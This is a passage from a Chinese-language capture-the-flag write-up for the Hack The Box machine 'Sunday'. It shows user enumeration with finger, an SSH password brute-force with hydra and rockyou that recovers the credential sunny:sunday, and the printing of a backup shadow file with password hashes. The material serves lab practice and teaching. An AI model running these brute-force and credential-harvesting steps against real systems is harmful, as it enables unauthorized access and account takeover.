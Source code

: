 ```
```

```sammy```和```sunny```看上去比较像可以用ssh登录的用户
测试一下
```
 finger sammy@10.10.10.76
Login       Name               TTY         Idle    When    Where
sammy    sammy                 console      <Jul 31, 2020>
                                                                                                                                                                                                                   
┌──(root💀kali)-[~/htb/sunday]
└─# finger sunny@10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny    sunny                 pts/3        <Apr 24, 2018> 10.10.14.4   
```

保存到user.txt,使用hydra爆破ssh

```
┌──(root💀kali)-[~/htb/sunday]
└─# hydra -L /root/htb/sunday/user.txt -P  /usr/share/wordlists/rockyou.txt -I -f  -s 22022 10.10.10.76 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-16 10:59:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:2/p:2), ~1 try per task
[DATA] attacking ssh://10.10.10.76:22022/
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-16 10:59:23

```


得到一个ssh用户凭证：```sunny : sunday```

# 初始shell

```
sunny@sunday:~/Documents$ find / -name user.txt
find: /export/home/sammy/.gnome2: Permission denied
find: /export/home/sammy/.gconf: Permission denied
/export/home/sammy/Desktop/user.txt

```
在sammy目录下，没有user.txt的使用权限，看来需要横向提权到sammy

在backup目录下找打shadow的备份文件
```
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::